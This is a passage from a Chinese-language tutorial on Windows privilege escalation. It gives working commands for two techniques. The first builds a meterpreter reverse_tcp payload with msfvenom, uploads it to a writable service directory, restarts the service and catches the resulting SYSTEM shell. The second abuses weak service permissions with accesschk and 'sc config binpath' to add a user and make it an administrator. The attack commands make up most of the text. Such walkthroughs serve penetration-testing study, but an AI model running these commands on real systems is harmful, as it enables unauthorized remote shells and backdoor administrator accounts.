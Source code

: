 3. 生成payload

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.1.227 LPORT=9999 -f exe -o Common.exe
   ```

4. 上传exe到漏洞目录

5. 重启服务

   ```shell
   sc qc "Windows Folder Service"
   sc stop "Windows Folder Service”
   sc start "Windows Folder Service"
   
   #没有权限重启服务，等待服务器重启时执行exe
   ```

   将我们需要执行的exe根据需要重命名并放置在可写入的存在漏洞目录下，然后运行如下命令尝试重启服务，如果失败的话等待服务器重启时执行exe.

6. 重启机器，获得shell

   ```shell
   use exploit/multi/handler
   set autorunscript migrate –f
   shutdown –r
   ```

   > 如果弹回一个`system`权限的`meterpreter shell`，但是我们新得到的会话很快就中断了。这是因为当一个服务在`Windows`系统中启动后，它必须和服务控制管理器通信。如果没有通信，服务控制管理器会认为出现了错误，并会终止这个进程。

##### 不安全的服务权限

直接修改服务的“ImagePath”注册表值，而不是修改服务属性。

1. 利用accesschk工具检查易受到攻击的服务：

   ```shell
   accesschk64.exe -ucqv "Authenticated Users" * /accepteula
   services_all_access
   ```

2. 查看可完全控制的服务的属性

   ```shell
   sc qc Acunetix
   ```

3. 修改服务配置执行命令

   `BINARY_PATH_NAME`参数指向了该服务的可执行程序(`wvs_supervisor.exe`)路径

   ```shell
   sc config Acunetix binpath= "net user updateuser password /add"
   sc stop Acunetix
   sc start Acunetix
   sc config Acunetix binpath= "net localgroup Administrators updateuser /add"
   sc start Acunetix
   ```
